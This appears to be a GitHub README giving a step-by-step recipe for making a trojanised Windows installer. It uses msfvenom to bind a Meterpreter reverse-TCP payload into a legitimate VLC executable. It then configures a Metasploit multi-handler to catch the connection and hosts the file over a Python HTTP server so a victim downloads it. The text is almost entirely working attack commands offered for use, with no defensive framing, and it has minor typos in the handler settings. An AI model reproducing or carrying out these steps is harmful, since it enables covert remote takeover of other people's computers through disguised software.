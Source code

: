 # 👉Create Basic Backdoor & Combine Payload with Legitimate EXE for reverse TCP connection 🔐✔
```
sudo git clone https://github.com/PushMeUp97/CombinePayloadwithLegitimateEXE.git
sudo chmod 777 CombinePayloadwithLegitimateEXE
cd CombinePayloadwithLegitimateEXE
```
# Create simple backdoor using msfvenom
```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR HOST IP> LPORT=<YOUR HOST PORT> -x vlc-3.0.21-win64.exe -f exe -o Payload_Legit.exe
```
# Configure the Mmlti-handler to catch the reverse connection:

```
msfconsole
```
```use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR HOST IP>
set LPORT LPORT=<YOUR HOST PORT>
show options
exploit
```
# Hosting Service the current directory to allow victim to download software
```
python3 -m http.server 8000
